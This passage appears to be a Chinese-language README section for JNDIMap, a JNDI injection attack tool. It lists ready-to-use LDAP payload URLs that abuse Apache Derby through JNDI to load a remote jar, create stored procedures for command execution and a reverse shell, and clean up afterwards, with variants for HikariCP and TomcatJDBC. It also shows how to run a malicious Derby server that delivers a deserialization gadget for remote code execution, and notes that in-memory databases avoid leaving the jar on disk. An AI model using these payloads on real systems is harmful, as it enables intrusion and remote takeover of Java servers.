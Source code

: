 支持命令执行和反弹 Shell

```bash
# 1. 加载远程 jar 并创建相关存储过程 (会自动创建数据库)
ldap://127.0.0.1:1389/Factory/Derby/Install/<database>

# 2. 命令执行/反弹 Shell
ldap://127.0.0.1:1389/Factory/Derby/Command/<database>/open -a Calculator
ldap://127.0.0.1:1389/Factory/Derby/ReverseShell/<database>/ReverseShell/127.0.0.1/4444

# 3. 删除数据库以释放内存
ldap://127.0.0.1:1389/Factory/Derby/Drop/<database>
```

注意 HikariCP/TomcatJDBC 的 connectionInitSql/initSQL 参数不支持一次性执行多条 SQL 语句, 因此上述 **Install** 过程需要分开写, 以 HikariCP 为例

```bash
# 1. 加载远程 jar (会自动创建数据库)
ldap://127.0.0.1:1389/HikariCP/Derby/InstallJar/<database>

# 2. 将 jar 加入 classpath
ldap://127.0.0.1:1389/HikariCP/Derby/AddClassPath/<database>

# 3. 创建命令执行的存储过程
ldap://127.0.0.1:1389/HikariCP/Derby/CreateCmdProc/<database>

# 4. 创建反弹 Shell 的存储过程
ldap://127.0.0.1:1389/HikariCP/Derby/CreateRevProc/<database>

# 后续 JNDI URL 同上
```

为了防止恶意 jar 落地, JNDIMap 选择使用 `jdbc:derby:memory:<database>` 形式的 JDBC URL 以在内存中创建数据库

因此最好不要多次执行 Install/InstallJar 路由, 并且记得 Drop 数据库以释放内存

#### Derby 主从复制反序列化 RCE

JNDI 本身就支持反序列化, 意义不大, 可能在某些比较极限的场景下有用 (例如过滤了 LDAP 协议, 仅支持 RMI)

```bash
# 1. 创建内存数据库
ldap://127.0.0.1:1389/Factory/Derby/Create/<database>

# 2. 使用 JNDIMap 快速启动恶意 Derby Server
java -cp JNDIMap.jar map.jndi.server.DerbyServer -g "/CommonsCollectionsK1/Command/open -a Calculator"

# 3. 指定 Slave 信息, database 即为上面创建的数据库名称
ldap://127.0.0.1:1389/Factory/Derby/Slave/<ip>/<port>/<database>
```

启动内置的恶意 Derby Server

```bash
Usage: java -cp JNDIMap.jar map.jndi.server.DerbyServer [-p <port>] [-g <gadget>] [-f <file>] [-h]
```
